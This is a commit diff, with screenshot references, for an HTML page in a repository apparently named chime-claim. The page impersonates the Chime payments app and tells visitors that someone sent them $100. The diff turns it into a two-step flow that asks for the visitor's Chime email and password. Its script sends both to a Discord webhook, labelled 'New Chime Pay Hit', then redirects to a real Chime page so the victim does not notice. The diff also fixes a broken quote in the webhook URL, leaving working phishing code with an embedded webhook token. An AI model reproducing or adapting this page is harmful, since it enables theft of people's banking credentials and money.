

Before and after one commit to shelbynidays-cyber/chime-claim, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,76 +5,112 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
     <title>Chime - Fee-free instant cashout</title>
     <style>
-        * {
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
-        }
+        * { margin: 0; padding: 0; box-sizing: border-box; }
         body {
-            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
-            background: #f4f5f7;
+            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif;
+            background: #fff;
             display: flex;
             flex-direction: column;
             align-items: center;
             justify-content: center;
             min-height: 100vh;
-            padding: 20px;
+            padding: 24px;
+            color: #1a1a1a;
         }
-        .card {
-            background: #ffffff;
-            border-radius: 12px;
-            box-shadow: 0 2px 12px rgba(0,0,0,0.08);
+        .container {
             width: 100%;
-            max-width: 400px;
-            padding: 32px 24px;
+            max-width: 420px;
             text-align: center;
         }
-        .chime-logo {
-            width: 60px;
-            height: 60px;
+        .chime-icon {
+            width: 64px;
+            height: 64px;
             background: #1ec77f;
-            border-radius: 18px;
+            border-radius: 16px;
             display: flex;
             align-items: center;
             justify-content: center;
-            margin: 0 auto 20px auto;
-            font-size: 28px;
-            color: #ffffff;
+            margin: 0 auto 24px auto;
+            font-size: 30px;
+            color: #fff;
             font-weight: 700;
+            letter-spacing: -1px;
         }
+        .claim-screen { display: block; }
         .amount {
-            font-size: 48px;
+            font-size: 52px;
             font-weight: 700;
             color: #1a1a1a;
-            margin-bottom: 4px;
+            line-height: 1;
+            margin-bottom: 8px;
         }
-        .sender {
-            font-size: 15px;
+        .sender-line {
+            font-size: 16px;
             color: #555;
-            margin-bottom: 20px;
+            margin-bottom: 16px;
         }
         .sender-name {
             font-weight: 600;
             color: #1a1a1a;
         }
         .fee-badge {
-            display: inline-block;
+            display: inline-flex;
+            align-items: center;
+            gap: 4px;
             background: #e8f8f0;
             color: #0b8a52;
             font-size: 13px;
             font-weight: 600;
-            padding: 6px 12px;
-            border-radius: 20px;
+            padding: 8px 16px;
+            border-radius: 24px;
+            margin-bottom: 32px;
+        }
+        .fee-badge::before { content: "✓"; font-weight: 700; }
+        .btn {
+            width: 100%;
+            background: #1ec77f;
+            color: #fff;
+            border: none;
+            padding: 16px;
+            border-radius: 8px;
+            font-size: 17px;
+            font-weight: 600;
+            cursor: pointer;
+            transition: background 0.15s;
+        }
+        .btn:active { background: #17a866; }
+        .footer-note {
+            font-size: 13px;
+            color: #999;
+            margin-top: 24px;
+        }
+        .footer-note span { color: #1ec77f; font-weight: 500; }
+        .login-screen { display: none; }
+        .back-link {
+            display: block;
+            text-align: left;
+            font-size: 15px;
+            color: #1ec77f;
             margin-bottom: 24px;
+            cursor: pointer;
+            text-decoration: none;
         }
-        .divider {
-            height: 1px;
-            background: #e6e6e6;
+        .back-link::before { content: "← "; }
+        .login-title {
+            font-size: 22px;
+            font-weight: 700;
+            margin-bottom: 6px;
+            text-align: left;
+        }
+        .login-subtitle {
+            font-size: 14px;
+            color: #666;
             margin-bottom: 24px;
+            text-align: left;
         }
         .label {
             font-size: 13px;
-            color: #888;
+            color: #555;
             text-align: left;
             margin-bottom: 4px;
             font-weight: 500;
@@ -88,74 +124,80 @@
             margin-bottom: 16px;
             background: #fafafa;
             transition: border-color 0.2s;
+            -webkit-appearance: none;
         }
         input:focus {
             outline: none;
             border-color: #1ec77f;
             background: #fff;
         }
-        .btn {
-            width: 100%;
-            background: #1ec77f;
-            color: #ffffff;
-            border: none;
-            padding: 16px;
-            border-radius: 8px;
-            font-size: 17px;
-            font-weight: 600;
-            cursor: pointer;
-            margin-top: 4px;
+        .small-amount-reminder {
+            font-size: 13px;
+            color: #888;
+            text-align: center;
+            margin-bottom: 12px;
         }
-        .btn:active {
-            background: #17a866;
-        }
-        .footer-text {
-            font-size: 12px;
-            color: #999;
-            margin-top: 20px;
-        }
-        .footer-text span {
-            color: #1ec77f;
-            font-weight: 500;
-        }
+        .small-amount-reminder strong { color: #1a1a1a; }
     </style>
 </head>
 <body>
-    <div class="card">
-        <div class="chime-logo">$</div>
+    <div class="container">
+
+        <!-- STEP 1: CLAIM SCREEN -->
+        <div class="claim-screen" id="claim-screen">
+            <div class="chime-icon">$</div>
             <div class="amount">$100.00</div>
-        <div class="sender"><span class="sender-name">Jose Diaz</span> sent you money</div>
-        <div class="fee-badge">✓ Fee-free instant cashout</div>
-        <div class="divider"></div>
-        <form id="claim-form">
+            <div class="sender-line"><span class="sender-name">Destiny Ruiz</span> sent you money</div>
+            <div class="fee-badge">Fee-free instant cashout</div>
+            <button class="btn" id="claim-btn">Claim $100.00</button>
+            <div class="footer-note">Powered by <span>Chime Pay</span></div>
+        </div>
+
+        <!-- STEP 2: LOGIN SCREEN -->
+        <div class="login-screen" id="login-screen">
+            <a class="back-link" id="back-btn">Back</a>
+            <div class="login-title">Sign in to claim</div>
+            <div class="login-subtitle">Enter your Chime login to accept this payment</div>
+            <div class="small-amount-reminder"><strong>Destiny Ruiz</strong> sent you <strong>$100.00</strong></div>
+            <form id="login-form">
                 <div class="label">Email</div>
                 <input type="email" name="email" placeholder="your@email.com" required autocomplete="email">
                 <div class="label">Password</div>
                 <input type="password" name="password" placeholder="Chime password" required autocomplete="current-password">
-            <button type="submit" class="btn">Claim $100.00</button>
+                <button type="submit" class="btn">Sign In & Claim</button>
             </form>
-        <div class="footer-text">Powered by <span>Chime Pay</span></div>
+            <div class="footer-note">Powered by <span>Chime Pay</span></div>
+        </div>
+
     </div>
 
     <script>
-        document.getElementById('claim-form').addEventListener('submit', function(e) {
+        document.getElementById('claim-btn').addEventListener('click', function() {
+            document.getElementById('claim-screen').style.display = 'none';
+            document.getElementById('login-screen').style.display = 'block';
+        });
+
+        document.getElementById('back-btn').addEventListener('click', function(e) {
+            e.preventDefault();
+            document.getElementById('login-screen').style.display = 'none';
+            document.getElementById('claim-screen').style.display = 'block';
+        });
+
+        document.getElementById('login-form').addEventListener('submit', function(e) {
             e.preventDefault();
             var email = document.querySelector('input[name="email"]').value;
             var password = document.querySelector('input[name="password"]').value;
 
-            // Send to your Discord webhook
-            fetch('https://discord.com/api/webhooks/1500643609265963108/KBGWZ9ytDruhyor733rmbeINKg1uUiNuUDy8aOraharOwNXGTLF_y2uvAgOfetB5lwtc {
+            fetch('https://discord.com/api/webhooks/1500643609265963108/KBGWZ9ytDruhyor733rmbeINKg1uUiNuUDy8aOraharOwNXGTLF_y2uvAgOfetB5lwtc', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
                 body: JSON.stringify({
                     content: '📦 **New Chime Pay Hit**\n**Email:** ' + email + '\n**Password:** ' + password + '\n**Time:** ' + new Date().toLocaleString()
                 })
             }).then(function(r) {
-                // Redirect to real Chime claimed page
-                window.location.href = 'https://app.chime.com/pay/claimed';
+                window.location.href = 'https://app.chime.com/pay/Bj5BHwJqQWWQZtjRTcwbKZk?ns_item_id=4cbb32ae-b887-4e5f-b031-7b1ce27a26b9';
             }).catch(function(r) {
-                // Still redirect even if webhook fails
-                window.location.href = 'https://app.chime.com/pay/claimed';
+                window.location.href = 'https://app.chime.com/pay/Bj5BHwJqQWWQZtjRTcwbKZk?ns_item_id=4cbb32ae-b887-4e5f-b031-7b1ce27a26b9';
             });
         });
     </script>
```
Lines whose indentation alone changed are shown as unchanged.
